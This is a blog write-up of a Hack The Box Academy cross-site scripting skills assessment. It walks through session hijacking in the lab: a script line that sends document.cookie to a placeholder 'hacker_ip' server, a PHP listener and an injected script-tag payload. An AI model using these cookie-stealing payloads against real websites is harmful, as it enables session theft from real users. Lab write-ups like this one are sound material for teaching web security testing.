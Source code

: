 ```yaml
---
title: Cross-Site Scripting (XSS)
author: saramazal
date: 2024-11-08
categories: [HTB Academy]
tags: [HackTheBox Academy, Skills Assessment, cbbh, cpts, xss, tmpserver, Session Hijacking ]     # TAG names should always be lowercase
img_path: /images/htb-academy/
image:
  path: images/htb-academy/xss.png
---
```




## [HTB Academy: Cross-Site Scripting (XSS) Module](https://academy.hackthebox.com/course/preview/cross-site-scripting-xss)
### Skills Assessment
We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new `Security Blog`.
In our Web Application Penetration Testing plan, we reached the part 
where you must test the web application against Cross-Site Scripting 
vulnerabilities (XSS).

Start the server below, make sure you are connected to the VPN, and access the `/assessment` directory on the server using the browser:

## Questions:

1. Identify a user-input field that is vulnerable to an XSS vulnerability
2. Find a working XSS payload that executes JavaScript code on the target's browser
3. Using the `Session Hijacking` techniques, try to steal the victim's cookies, which should contain the flag.**Answers:**

## Answers:
### First, let's create a server on our machine and prepare a payload for testing input fields on the target site.
```mkdir /tmp/tmpserver```

```cd /tmp/tmpserver```

```nano myscript.js > new Image().src='http://hacker_ip:3333/index.php?c='+document.cookie;```

```nano index.php```

![php-code](/images/htb-academy/php-code.png)

## Let's start your server

```sudo php -S 0.0.0.0:3333```

### Now let's test the input fields on the target site:

```"><script src=http://hacker_ip:3333/myscript.js></script>```

![inputs](/images/htb-academy/inputs.png)
![php-server](/images/htb-academy/php-server.png)

### Great, it works!

### Let's check our cookie file.

![cookie](/images/htb-academy/cookie.png)

## Happy Hacking!


[![XSS Badge](/images/htb-academy/xss-badge.png){: width="600" height="auto" .shadow }](https://academy.hackthebox.com/achievement/badge/1e195a3e-ef45-11ee-b18d-bea50ffe6cb4)

[My HTB Academy unique referral link >](https://referral.hackthebox.com/mzyGKZb)

